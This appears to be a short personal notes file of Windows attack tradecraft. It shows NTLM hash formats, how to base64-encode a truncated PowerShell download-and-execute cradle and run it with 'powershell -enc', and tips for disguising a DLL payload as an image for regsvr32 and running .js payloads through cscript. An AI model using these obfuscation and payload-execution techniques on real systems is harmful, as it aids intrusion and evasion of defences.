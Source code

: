 # win_facts

sort these as the field manual develops

## hashing on windows

> NTLM hashes
```
LM:NTLM						; lan man : new technology lan manager
aad3...:31d6...				; blank hashes
```
> explanation of above
```
LM is no longer used but is often required for interacting with services; Anything can be put here! So long as its a valid hash
```


## default windows encoding

> default encoding
```
UTF-16le 			; UTF-8 little endian

NECESSARY FOR POWERSHELL ENCODED COMMANDS
```


> encoding the payload
```sh
echo -n 'IEX(IWR....)' | iconv -t UTF-16LE | base64 -w 0

explanation:
	echo is the ps command we doing, new object, invoke-web, w.e.
	-t ; to code
	-w 0 ; all on 1 line
```


> detonating the payload
```sh
powershell -enc 'BASE64_ENCODED_COMMAND'
```


## microsoft binaries

### where

This binary acts almost identically to linux's `which`. The following gives the absolte path of `whoami.exe`.

```cmd
where whoami
```


### findstr

Similar to `grep`, usage of the `findstr` binary is a fundamental skill. The following searches `STDOUT` for strings that **do not contain** `"windows"`, ignoreing case sensitivity.

```cmd
| findstr /v /i "C:\Windows"
```


### regsrv32

This `regsrv32` binary will execute `.DLL` files. It does not care about the extension, it reads the binary header instead. First mask the payload as a `.DAT` or `.JPG` before execution. 


### cscript

The `cscript` binary is the parser for scripts. Similar to `wscript`, but without abilities to make windows. Notably, `cscript` will parse javascript. This enables `.js` payloads to be used on targets. 

